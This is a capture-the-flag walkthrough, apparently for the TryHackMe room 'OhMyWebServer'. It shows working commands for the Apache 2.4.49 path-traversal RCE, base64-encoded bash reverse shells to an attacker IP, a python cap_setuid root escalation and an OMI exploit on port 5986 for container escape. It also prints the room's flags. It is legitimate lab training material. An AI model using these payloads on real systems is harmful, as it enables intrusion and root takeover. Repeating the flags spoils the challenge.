









## TL;DR

In this challenge we find `RCE` on the apache version, and exploit it to get RCE.
Then, we escalate to `root` using `setuid_cap` on python.

We find port `5986` on the host ip and exploit `RCE`, to escape out of the container. (we could have done that also without priv sec to root on container)

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we find port `11` with ssh and port `80` with apache http server
```bash
PORT   STATE SERVICE REASON         VERSION                                                                                                      
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                 
| ssh-hostkey:                                                                                                                                   
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDMlfGBGWZkPg98VnvD+FVeesHsQwmtoJfMOMhifMjxD9AEluFQNVnoyxyQi5y9O2/AN/MO+l57li33lHiVjD1eglBjB3Lkzz3tpRJSmGn2Ug3jRypShkSJ9VkUVFElw8MXke62w3+9pi+S0Ub1DqcttGH8TqihiWvqJbJYnecqjdcka1uKPdPna0gleow9JiaAH3X4EMFdcXZDOGgnOaZId2mEXFDeNNYFZpS+EOcLgXaAp1NobUckE9NXvE73qw+pBNo69m3z4MG7/cJNIsQiFpm5yqgCKJGjhwGFp4zAMXOD23lj1g+iQlwrchwY5nBEHHae1PjQwLjwuWebjWR+bWPalPVYa4d8+15TjjgV8VW/Rac3rTX+A/buyVxUSMhkBtn7fQ2sLoMPPn7vRDo3ggGl5IZaYIvSYRDk9nadsZk+YKUCSgFf97z0PK278vbrPwjJTyyScAnjvs+oLnD/bAdja4uwOOS2CHehjzipVmWf7zR3srIfjZQ4aAUmeh8=
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLf6FvNwGNtpra24lyJ4YWPqB8olwPXhKdr6gSW6Dc+oXdZJbQPtpD7cph3nvR9sQQnTKGiG69XyGKh0ervYI1U=
|   256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEzBDIQu+cp4gApnTbTbtmqljyAcr/Za8goiY57VM+uq
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.49 ((Unix))
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE 
|_http-server-header: Apache/2.4.49 (Unix)
|_http-favicon: Unknown favicon MD5: 02FD5D10B62C7BC5AD03F8B0F105323C
|_http-title: Consult - Business Consultancy Agency Template | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Use RCE on apache version to get shell

We can see the version of apache is `2.4.49`, which seems to be vulnerable to `LFI` and also `RCE`.



I've found a `PoC` here [https://attackerkb.com/topics/1RltOPCYqE/cve-2021-41773/rapid7-analysis](https://attackerkb.com/topics/1RltOPCYqE/cve-2021-41773/rapid7-analysis), this is the payload we'll sent:
```bash
┌──(agonen㉿kali)-[~/thm/OhMyWebServer]
└─$ curl --path-as-is 'http://ohmywebserver.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo -e "\n$(id)"'
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

we got back the output, this is `RCE`. 
Now, we'll use the `penelope` payload, to get reverse shell:
```bash
curl --path-as-is 'http://ohmywebserver.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo -e "\n$(printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash)"'
```


### Privilege escalate root inside container using setuid_cap on python

we can detect we are inside a docker, using the `.dockerenv` file and also the hostname:



also, the `/etc/hosts` can show us we are inside container:
```bash
daemon@4a70924bafa0:/tmp$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.2      4a70924bafa0
```

Using linpeas we can find the binary `/usr/bin/python3.7` has `setuid` capability.



```bash
daemon@4a70924bafa0:/tmp$ getcap -r / 2>/dev/null
/usr/bin/python3.7 = cap_setuid+ep
```

Let's leverage it to gain priv esc:
```bash
daemon@4a70924bafa0:/tmp$ /usr/bin/python3.7 -c 'import os; os.setuid(0);os.system("id");'
uid=0(root) gid=1(daemon) groups=1(daemon)
```

Okay, now we'll add SUID bit to `/bin/bash`:
```bash
daemon@4a70924bafa0:/tmp$ /usr/bin/python3.7 -c 'import os; os.setuid(0);os.system("chmod u+s /bin/bash");'
daemon@4a70924bafa0:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
daemon@4a70924bafa0:/tmp$ /bin/bash -p
bash-5.0# id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
```



and we can grab the user flag:
```bash
bash-5.0# cat /root/user.txt 
THM{eacffefe1d2aafcc15e70dc2f07f7ac1}
```

### Privilege Escalation to Root using RCE on port 5986 on the host ip

I executed `ifconfig`, and saw our ip is `172.17.0.2`.
```bash
bash-5.0# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 7895  bytes 5040409 (4.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7069  bytes 3323448 (3.1 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

If so, we are probably inside local network, and there is someone with ip `172.17.0.1`, maybe even the host.
I uploaded `rustscan` and executed this command:
```bash
/tmp/rustscan 172.17.0.1 --open -sVC
```



We found 3 opened ports:
```bash
Open 172.17.0.1:22
Open 172.17.0.1:80
Open 172.17.0.1:5986
```

I googled about port `5986` and found there is well known exploit on some service behind this port, here is a PoC [https://github.com/CyberMonitor/CVE-2021-38648](https://github.com/CyberMonitor/CVE-2021-38648)

I uploaded the PoC and executed it:



```bash
bash-5.0# python3 CVE-2021-38647.py -t 172.17.0.1 -p 5986 -c 'whoami;id;hostname;uname -a'
root
uid=0(root) gid=0(root) groups=0(root)
ubuntu
Linux ubuntu 5.4.0-88-generic #99-Ubuntu SMP Thu Sep 23 17:29:00 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

As you can see, we are executing commands as root on the remote machine!
I executed `docker ps` just to see the containers that are now running:
```bash
bash-5.0# python3 CVE-2021-38647.py -t 172.17.0.1 -p 5986 -c 'docker ps'
CONTAINER ID   IMAGE        COMMAND              CREATED       STATUS             PORTS                               NAMES
4a70924bafa0   apache:1.2   "httpd-foreground"   3 years ago   Up About an hour   0.0.0.0:80->80/tcp, :::80->80/tcp   httpd-server
```



I used the payload from penelope for reverse shell:
```bash
python3 CVE-2021-38647.py -t 172.17.0.1 -p 5986 -c 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDMgMD4mMSkgJg==|base64 -d|bash'
```



and we can grab the root flag:
```bash
root@ubuntu:/root# cat root.txt 
THM{7f147ef1f36da9ae29529890a1b6011f}
```